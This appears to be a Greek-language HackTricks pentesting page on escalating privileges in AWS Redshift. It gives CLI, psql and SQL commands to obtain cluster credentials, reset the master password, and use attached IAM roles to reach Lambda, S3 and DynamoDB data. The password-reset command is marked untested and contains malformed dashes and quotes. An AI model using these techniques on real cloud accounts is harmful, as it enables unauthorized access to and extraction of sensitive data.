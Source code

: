 # AWS - Redshift Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Redshift

Για περισσότερες πληροφορίες σχετικά με το RDS, ελέγξτε:

{{#ref}}
../aws-services/aws-redshift-enum.md
{{#endref}}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Με αυτές τις άδειες μπορείτε να αποκτήσετε **πληροφορίες για όλα τα clusters** (συμπεριλαμβανομένου του ονόματος και του ονόματος χρήστη του cluster) και **να αποκτήσετε διαπιστευτήρια** για να έχετε πρόσβαση σε αυτό:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Με αυτές τις άδειες μπορείτε να αποκτήσετε **πληροφορίες για όλα τα clusters** και **να αποκτήσετε διαπιστευτήρια** για να έχετε πρόσβαση σε αυτά.\
Σημειώστε ότι ο χρήστης postgres θα έχει τις **άδειες που έχει η ταυτότητα IAM** που χρησιμοποιήθηκε για να αποκτήσει τα διαπιστευτήρια.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Είναι δυνατόν να **τροποποιήσετε τον κύριο κωδικό πρόσβασης** του εσωτερικού χρήστη postgres (redshit) από το aws cli (νομίζω ότι αυτές είναι οι άδειες που χρειάζεστε αλλά δεν τις έχω δοκιμάσει ακόμα):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

## Πρόσβαση σε Εξωτερικές Υπηρεσίες

> [!WARNING]
> Για να αποκτήσετε πρόσβαση σε όλους τους παρακάτω πόρους, θα χρειαστεί να **καθορίσετε τον ρόλο που θα χρησιμοποιήσετε**. Ένα cluster Redshift **μπορεί να έχει ανατεθεί μια λίστα ρόλων AWS** που μπορείτε να χρησιμοποιήσετε **αν γνωρίζετε το ARN** ή μπορείτε απλά να ορίσετε το "**default**" για να χρησιμοποιήσετε τον προεπιλεγμένο που έχει ανατεθεί.

> Επιπλέον, όπως [**εξηγείται εδώ**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), το Redshift επιτρέπει επίσης τη συγχώνευση ρόλων (αρκεί ο πρώτος να μπορεί να αναλάβει τον δεύτερο) για να αποκτήσετε περαιτέρω πρόσβαση απλά **χωρίζοντάς** τους με μια **κόμμα**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`

### Lambdas

Όπως εξηγείται στο [https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html), είναι δυνατό να **καλέσετε μια συνάρτηση lambda από το redshift** με κάτι σαν:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Όπως εξηγείται στο [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), είναι δυνατόν να **διαβάσετε και να γράψετε σε S3 buckets**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Όπως εξηγείται στο [https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html), είναι δυνατόν να **πάρετε δεδομένα από το dynamodb**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
> [!WARNING]
> Ο πίνακας Amazon DynamoDB που παρέχει τα δεδομένα πρέπει να δημιουργηθεί στην ίδια περιοχή AWS με το cluster σας, εκτός αν χρησιμοποιήσετε την επιλογή [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) για να καθορίσετε την περιοχή AWS στην οποία βρίσκεται ο πίνακας Amazon DynamoDB.

### EMR

Ελέγξτε [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

- [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{{#include ../../../banners/hacktricks-training.md}}
